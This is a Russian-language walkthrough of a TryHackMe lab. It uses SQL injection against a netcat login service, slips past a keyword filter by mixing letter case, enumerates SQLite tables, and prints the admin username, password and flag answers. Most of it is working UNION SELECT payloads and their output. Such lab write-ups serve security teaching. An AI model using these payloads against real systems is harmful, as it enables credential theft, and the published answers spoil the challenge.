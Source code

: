 Подключимся к машине:

`nc MACHINE_IP 1337`

После подключения можно увидеть:

`Please enter your username: `

Попробуем ввести "smokey":

`Password: vYQ5ngPpw8AdUmL`

Попробуем ввести sql инъекцию:

```
Please enter your username: ' UNION SELECT '1
Ahh there is a word in there I don't like :(
```

Программа не пропускает sql запросы, но мы можем заменить написать их подругому, например `' Union Select 1'`. Такой запрос программа пропускает: 

```
Please enter your username: ' Union Select '1
Password: 1
```

Теперь нужно получить название таблицы в которой хранятся имена и пароли пользователей:

```
Please enter your username: ' Union Select name From sqlite_master Where type='table
Password: admintable
```

Итак, мы получили название таблицы: **admintable**. Теперь мы можем получить имена пользователей из этой таблицы:

```
Please enter your username: ' Union Select username From admintable Where username!='smokey
Password: TryHackMeAdmin
```

Мы нашли имя пользователя админа **TryHackMeAdmin** это и есть ответ на первый вопрос.

Также можно посмотреть остальные имена пользователей: 

```
Please enter your username: ' Union Select username From admintable Where username!='smokey' And username!='TryHackMeAdmin
Password: flag
```

мы нашли еще одного пользователя: **flag**

Теперь мы можем получить пароли пользователей **flag** и  **TryHackMeAdmin**:

Узнаем пароль пользователя **TryHackMeAdmin**:
```
Please enter your username: ' Union Select password From admintable Where username='TryHackMeAdmin
Password: mamZtAuMlrsEy5bp6q17
```

Ответ на второй вопрос: `mamZtAuMlrsEy5bp6q17`

Узнаем пароль пользователя **flag**:
```
Please enter your username: ' Union Select password From admintable Where username='flag
Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}
```

Овет на третий вопрос: `THM{SQLit3_InJ3cTion_is_SimplE_nO?}`